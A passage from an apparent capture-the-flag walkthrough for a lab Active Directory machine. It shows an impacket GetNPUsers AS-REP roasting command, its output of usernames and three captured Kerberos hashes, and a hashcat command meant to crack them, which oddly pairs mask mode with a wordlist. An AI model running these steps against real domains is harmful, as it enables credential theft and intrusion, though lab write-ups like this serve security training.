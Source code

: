 
We verify the domain user again with the following command

```bash
impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile usernames.txt vintage.htb/
```

```bash
❯ impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile usernames.txt vintage.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc_sql@VINTAGE.HTB:45da0adfb1f17d7a21c6477b20635edb$5ebc4b7b47601ca7085f297ee1c1988e768052b4007bdb59fece2ac549d1ac6483aacafe1d9c80f622b80430ca4eef035bb6be796d4ef92703d616447ed4de4122f5b7e52ae3808a7d9e489b8a4ed8d8c48c198c22aab0198ffa567730a9fc1714bf02b377eb0f9206100909cb575a36cfa2f1dbf9d94e2b158da8b01b1422e5dbfce68b770a49c417dea8052cc26c2a8ba507e8419c7a5d5fc65be0b8cb503ab5da42f3612eb244e2170196bb646d4feeeb422d48daa67235bd2cb03d6a2e8c3fda74b2c4f63fc9f9bbde1cb3ddbabb38045fa8c481e3afff75f6f83d6e18cb2ab921feffc1379fb4b4
$krb5asrep$23$svc_ldap@VINTAGE.HTB:d463e18baf287c27b5181cf45aa1eaab$c2b55e479d45b1735174f2a2390db82f2d147f50234876da30322590f9c424eae9ddb65bed68465a4842d9dcda59f9fa86d0706a8cb84689e6394a26a25c97e2898a1453a4bd5af62852599d7b91ddfca473af64a61e0ea86ec484b2dcef37a5a5b10d395e79df9a1eb12bf6dbe6113dd49ac0508a050f4453e4c7899f5dcb88f1e9a062b0481755d5b0099bbc178d8038b688605e4ef55999d565ed410e3f1c3b37c8ccab2b47ca2ba22bddb35c1d0b04b750b012bf705aec8f69e0fecb1b05bae9c886ebb83ed660961fe390ccbf343430a89716f0af5f30f075be2b1627aef6adafbfb1ee171f4276
$krb5asrep$23$svc_ark@VINTAGE.HTB:b9cae9b7e59b147fc077cabf2442afd4$db833fe5ce1ad887c5f30d2cbbc48e294d3dde348fcac316fe8f1ad068be1d1e6882fa213cf7ea2c12ea4e1ef05af0913c010853497d33ef9b1415363bd44b1e3b0f94e2acda670c89077f3e5cc1e4dfb400efdaa7c696685ee696e03087a5ef4a6b8d7dc070aa071726fc7a98dfcd407c8fe28985e0f134cb12bbf8cdfdce4a8668cf4709bcbb70f88452208a1a517237a10d1c006eb6578e639e0e013e7dc28fe7eb759383bac09f2b75c7349d379ee6aac9fe9aa1498896b76b085a4b3cfbfec673afc673e4536b07457ff86d61fd324eb9790e86660879cfcce3b446880f2626caf01f9a30a6687a
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
```

And we crack the first kerberos hash with hashcat first we put it in a `hash.txt` file and once that is done we run the following command to decrypt the password

```bash
hashcat -a 3 -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```
